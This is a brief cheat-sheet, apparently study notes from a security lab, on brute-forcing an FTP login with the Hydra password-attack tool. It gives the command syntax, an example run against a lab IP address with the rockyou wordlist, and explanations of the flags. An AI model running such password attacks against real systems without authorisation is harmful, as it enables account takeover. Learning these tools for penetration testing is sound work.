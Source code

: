 Password Attack

`hydra -l USERNAME -P WORDLIST.txt SERVER SERVICE`

`hydra -l mark -P /usr/share/wordlists/rockyou.txt 10.10.74.138 ftp`

`-l USER`: provide login name
`-P WORDLIST`: specify password list
`-p PASS`: specify password
`-s PORT`: use to specify non-default ports
`-V, -vV:` verbosity, shows username and password combos tried
`-d`: debugging output
`-t`: threads, connections to target